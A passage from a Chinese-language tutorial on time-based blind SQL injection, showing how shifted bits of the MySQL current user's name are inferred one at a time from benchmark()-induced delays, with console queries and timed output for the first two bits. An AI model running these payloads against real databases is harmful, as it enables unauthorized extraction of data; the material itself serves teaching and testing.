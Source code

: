 
第一位：

首先，我们找到第一位的值：
**？**???????
这有两种可能性：
0（十进制值：0）// TRUE条件
或者
1（十进制值：1）// FALSE条件
```
mysql> select if ((ascii((substr(user(),1,1))) >> 7 )=0,benchmark(10000000,sha1('test')), 'false');
 
+--------------------------------------------------------------------------------------+
 
| if ((ascii((substr(user(),1,1))) >> 7 )=0,benchmark(10000000,sha1('test')), 'false') |
 
+--------------------------------------------------------------------------------------+
 
| 0                                                                                    |
 
+--------------------------------------------------------------------------------------+
 
1 row in set (2.35 sec)
```
SQL查询存在时延，所以条件为TRUE，即第一位为0
**0** ???????
![](https://stealingthe.network/wp-content/uploads/2017/12/1.jpg)
第二位：

现在，我们需要找第二位的值。同上，这也有两种可能性：

0 **0**（十进制值：0）// TRUE条件
或者
0 **1**（十进制值：1）// FALSE条件
```
mysql> select if ((ascii((substr(user(),1,1))) >> 6 )=0,benchmark(10000000,sha1('test')), 'false');
 
+--------------------------------------------------------------------------------------+
 
| if ((ascii((substr(user(),1,1))) >> 6 )=0,benchmark(10000000,sha1('test')), 'false') |
 
+--------------------------------------------------------------------------------------+
 
| false                                                                                |
 
+--------------------------------------------------------------------------------------+
 
1 row in set (0.00 sec)
```
SQL查询没有时延，所以条件为FALSE，即第二位为1

0 **1** ?????

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20181026220050-8ba56f60-d927-1.png)
